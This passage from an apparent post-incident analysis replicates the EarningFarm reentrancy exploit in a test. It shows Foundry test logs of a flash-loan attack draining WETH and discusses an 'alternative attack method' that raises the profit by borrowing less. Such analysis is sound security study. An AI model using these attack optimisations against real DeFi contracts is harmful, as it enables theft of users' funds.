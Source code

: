 ```markdown
  ==================== End of attack ====================
  [*] Attacker WETH balance after exploit: 154.324273138764416278
```

Yeah! We successfully replicated the attack!

## 4. Possible Alternative Attack Methods

This section discusses various approaches to achieving the reentrancy attack.

### 1. Starting with 10,000 ether?

Initially, the attacker borrowed 10,000 ether from Uniswap V3. However, as we later discovered in the analysis, the attacker only used 320 ether. Therefore, we can reduce the amount of borrowed ether to lower the cost. Borrowing 321 ether would yield a profit of 159 ethers:

```markdown
Running 1 test for test/20230809_EarningFarm_exp_2.t.sol:ContractTest
[PASS] testExploit() (gas: 4106719)
Logs:
  [*] Attacker WETH balance before exploit: 0.000000000000000000
  ==================== Start of attack ====================
  [*] fee1: 0.160500000000000000
  [*] Attacker's ether balance at the start: 321.000000000000000000
  ETH Vault:  320599650531622753094
  ETH transferred to cont
  Current Total:  320599650531622753094
  Controller:  320599650531622753094
  Exchange input:  1017776668354357946330 1017776668354357946330
  Exchange curve:  0xDC24316b9AE028F1497c275EB9192a3Ea0f67022
  Exchange:  1017475739806761189725 1017776668354357946330
  [*] Attacker's ether balance after deposit: 0.400349468377246906
  [*] Attacker's LP share after deposit: 295.761225721251919241
  Cont Withdraw:  320097773741366419079 320097773741366419079
  [*] Attacker's LP share after withdrawn: 0.000000000000000000
  [*] Attacker ether balance after withdrawing: 320.498123209743665985
  Cont Withdraw:  159826149929020750293 159826149929020750293
  [*] Attacker's total WETH after attack: 480.324273138764416278
  [*] Attacker's total WETH after payback flashloan: 159.163773138764416278
  ==================== End of attack ====================
  [*] Attacker WETH balance after exploit: 159.163773138764416278

Test result: ok. 1 passed; 0 failed; finished in 1.34s
```

As observed, this earns 5 ethers more than borrowing 10,000 ethers due to reduced borrowing costs. (Although the hacker might not care about these 5 ethers, right? :))

### 2. Why “share - 1000”?

We noticed that the attacker transferred "share - 1000" to another contract during reentrancy. What's the purpose behind this choice?
